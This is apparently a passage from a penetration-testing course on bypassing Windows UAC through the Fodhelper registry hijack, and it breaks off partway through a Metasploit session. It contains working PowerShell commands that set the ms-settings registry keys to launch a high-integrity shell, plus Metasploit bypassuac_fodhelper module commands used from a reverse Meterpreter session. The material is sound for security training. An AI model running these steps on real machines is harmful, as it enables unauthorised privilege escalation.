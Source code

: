 If we create the registry key and add the _DelegateExecute_ value, Fodhelper will search for the default value _(Default)_ and use the content of the value to create a new process. If our exploit creates the registry path and sets the _(Default)_ value to an executable (like powershell.exe), it will be spawned as a high integrity process when Fodhelper is started.

Listing 55 shows a proof-of-concept in PowerShell that creates the needed registry keys with associated values required to launch PowerShell.

```
PS C:\Users\Offsec> New-Item -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Value powershell.exe –Force

PS C:\Users\Offsec> New-ItemProperty -Path HKCU:\Software\Classes\ms-settings\shell\open\command -Name DelegateExecute -PropertyType String -Force

PS C:\Users\Offsec> C:\Windows\System32\fodhelper.exe
```

> Listing 55 - Proof of concept to create registry keys and launch PowerShell

The first command creates the registry path through the New-Item cmdlet[2](https://portal.offsec.com/courses/pen-300-9502/learning/advanced-antivirus-evasion-14696/advanced-antivirus-evasion-15017#fn-local_id_320-2) and the -Path option. Additionally, it sets the value of the default key to "powershell.exe" through the -Value option while the -Force flag suppresses any warnings.

In the second command, the _DelegateExecute_ value is created through the similar New-ItemProperty cmdlet,[3](https://portal.offsec.com/courses/pen-300-9502/learning/advanced-antivirus-evasion-14696/advanced-antivirus-evasion-15017#fn-local_id_320-3) again using the -Path option along with the -Name option to specify the value and the -PropertyType option to specify the type of value, in this case a String.

Finally, fodhelper.exe is started to launch the high-integrity PowerShell prompt as shown in Figure 7.

<figure><img src="https://static.offsec.com/offsec-courses/PEN-300/imgs/aav/196959ddebbb5522535baf0d0c1a3c9b-aav_uac_poc.png" alt="Figure 7: High integrity PowerShell prompt launched from UAC bypass"><figcaption><p>Figure 7: High integrity PowerShell prompt launched from UAC bypass</p></figcaption></figure>

Based on the highlighted section of Figure 7, the PowerShell prompt is running in high integrity.

This is obviously only a simple proof-of-concept but it has been weaponized by exploitation frameworks including Metasploit so let's test it out.

First, we'll use one of our many shellcode runners to obtain a reverse Meterpreter shell on the Windows 10 victim machine and use that active Meterpreter session to launch the fodhelper UAC bypass module. Listing 56 shows the executed UAC bypass module:

```
msf5 exploit(multi/handler) > use exploit/windows/local/bypassuac_fodhelper

msf5 exploit(windows/local/bypassuac_fodhelper) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Windows x86
   1   Windows x64


msf5 exploit(windows/local/bypassuac_fodhelper) > set target 1
target => 1

msf5 exploit(windows/local/bypassuac_fodhelper) > sessions -l

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
```